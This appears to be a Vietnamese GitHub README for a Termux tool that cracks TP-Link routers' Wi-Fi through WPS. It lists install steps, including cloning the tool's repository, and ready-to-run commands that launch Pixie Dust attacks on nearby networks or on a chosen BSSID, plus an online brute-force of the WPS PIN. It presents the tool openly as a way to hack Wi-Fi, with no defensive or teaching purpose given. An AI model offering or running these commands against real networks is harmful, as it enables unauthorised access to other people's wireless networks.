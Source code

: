 ## BẢN 	TIẾNG VIỆT WPS_Wifi_Cracker_For_TP-Link_Router
### Hack TP Link Wifi Bằng Termux! (Yêu cầu quyền Root)t)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

### Cài đặt: :

```bash
$ apt update && apt upgrade -y
$ pkg install -y root-repo
$ pkg install -y git tsu python wpa-supplicant pixiewps iw
$ git clone https://github.com/anhduong295/B-n-Ti-ng-Vi-t-WPS_Wifi_Cracker__Router_TP-Link.git
$ chmod +x WPS_Wifi_Cracker_For_TP-Link_Router/Tanvir_inject.py
To Run: 
$ sudo python Tanvir_inject.py -i wlan0 -K
```

#### Ví dụ: `sudo python Tanvir_inject.py -i wlan0 -K`

#### Lưu ý:: 
**Đầu tiên, hãy tắt Wifi của bạn.**
- Hiển thị các mạng khả dụng và bắt đầu tấn công Pixie Dust vào một mạng cụ thể.
- `sudo python Tanvir_inject.py -i wlan0 -K`
- Bắt đầu tấn công Pixie Dust vào một BSSID cụ thể: 
`sudo python Tanvir_inject.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Khởi chạy tấn công brute-force WPS trực tuyến với nửa đầu của mã PIN được chỉ định:
- `sudo python Tanvir_inject.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Khắc phục sự cố
**"Thiết bị hoặc tài nguyên đang bận (-16)" - Bật Wifi sau đó tắt Wifi.**
